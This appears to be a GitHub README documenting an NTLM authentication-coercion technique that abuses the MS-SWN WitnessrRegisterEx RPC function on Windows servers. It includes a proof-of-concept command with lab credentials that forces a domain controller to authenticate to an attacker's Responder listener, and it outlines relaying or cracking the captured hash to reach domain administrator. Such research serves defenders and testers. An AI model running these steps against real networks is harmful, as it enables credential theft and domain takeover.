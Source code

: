 # MS-SWN - Remote call to WitnessrRegisterEx (opnum 4)

## Summary

 - **Protocol**: [[MS-SWN]: Service Witness Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d)

 - **Protocol UUID**: ccd8c074-d0e5-4a40-92b4-d074faa6ba28

 - **Protocol version**: 1.1

 - **SMB Named pipe**: ``

 - **Function name**: [`WitnessrRegisterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/a6028354-7f1c-43d7-97af-4999305193d2)

 - **Function operation number**: `4`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SWN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d) protocol (with uuid `ccd8c074-d0e5-4a40-92b4-d074faa6ba28` and version `1.1`) in order to perform remote procedure calls to functions in the [`MS-SWN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SWN]: Service Witness Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d) and allows to call RPC functions of this protocol. We will then call the remote [`WitnessrRegisterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/a6028354-7f1c-43d7-97af-4999305193d2) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
WitnessrRegisterEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD WitnessrRegisterEx(
         [in] handle_t Handle,
         [out] PPCONTEXT_HANDLE ppContext,
         [in] ULONG Version,
         [in] [string] [unique] LPWSTR NetName,
         [in] [string] [unique] LPWSTR ShareName,
         [in] [string] [unique] LPWSTR IpAddress,
         [in] [string] [unique] LPWSTR ClientComputerName,
         [in] ULONG Flags,
         [in] ULONG KeepAliveTimeout);
```

## References

 - Documentation of protocol [MS-SWN]: Service Witness Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d

 - Documentation of function `WitnessrRegisterEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/a6028354-7f1c-43d7-97af-4999305193d2